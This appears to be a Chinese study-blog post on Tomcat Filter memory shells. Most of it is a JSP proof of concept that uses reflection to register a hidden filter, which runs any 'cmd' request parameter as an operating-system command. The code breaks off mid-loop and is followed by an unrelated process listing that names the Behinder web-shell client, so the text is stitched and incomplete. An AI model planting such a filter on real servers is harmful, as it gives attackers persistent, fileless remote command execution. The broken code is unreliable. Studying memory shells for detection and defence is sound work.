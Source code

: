 # 前言

之前学了flask的内存马，一直都想学学Java的内存马，所以就学了Tomcat Filter内存马，感觉还是太菜了呜呜呜好难看不太懂。最近学Java写下的文章都不太想发出来了，因为自己本身就没搞懂，都是迷迷糊糊的，看着各种文章上面说是怎么怎么样，然后分析了一波，给出了POC和结论，我是除了会用POC其他一点都没看太懂，只能说自己还是太菜了呜呜呜。

主要跟着天下大木头师傅的文章进行学习。

# POC

注意命令执行那里放的是windows的，linux用注释里面的。

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.catalina.core.ApplicationContextFacade" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.HashMap" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%
    ServletContext servletContext = request.getServletContext();
    ApplicationContextFacade applicationContextFacade = (ApplicationContextFacade) servletContext;
    Field applicationContextFacadeContext = applicationContextFacade.getClass().getDeclaredField("context");
    applicationContextFacadeContext.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextFacadeContext.get(applicationContextFacade);
    Field applicationContextContext = applicationContext.getClass().getDeclaredField("context");
    applicationContextContext.setAccessible(true);
    StandardContext standardContext = (StandardContext) applicationContextContext.get(applicationContext);

    Field filterConfigs = standardContext.getClass().getDeclaredField("filterConfigs");
    filterConfigs.setAccessible(true);
    HashMap hashMap = (HashMap) filterConfigs.get(standardContext);
    String filterName = "ego";
    if (hashMap.get(filterName)==null){

        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {
                //Filter.super.init(filterConfig);
                //System.out.println("内存马init");
            }

            @Override
            public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
                if (request.getParameter("cmd")!=null){
                    //String[] cmds = {"/bin/sh","-c",request.getParameter("cmd")}
                    String[] cmds = {"cmd","/c",request.getParameter("cmd")};
                    InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                    byte[] bcache = new byte[1024];
                    int readSize = 0;
                    try(ByteArrayOutputStream outputStream = new ByteArrayOutputStream()){
                        while ((readSize =in.read(bcache))!=-1){
                            outputStream.write(bcache,0,readSize);
```

  [2]: 22768 org.jetbrains.jps.cmdline.Launcher
  [3]: 24208 org.jetbrains.idea.maven.server.RemoteMavenServer36
  [4]: 2832 Behinder.jar
  [5]: 22808
  [6]: 5816 burpsuite_pro_v2021.8.jar
  [7]: 23436 org.jetbrains.jps.cmdline.Launcher
  [8]: 4092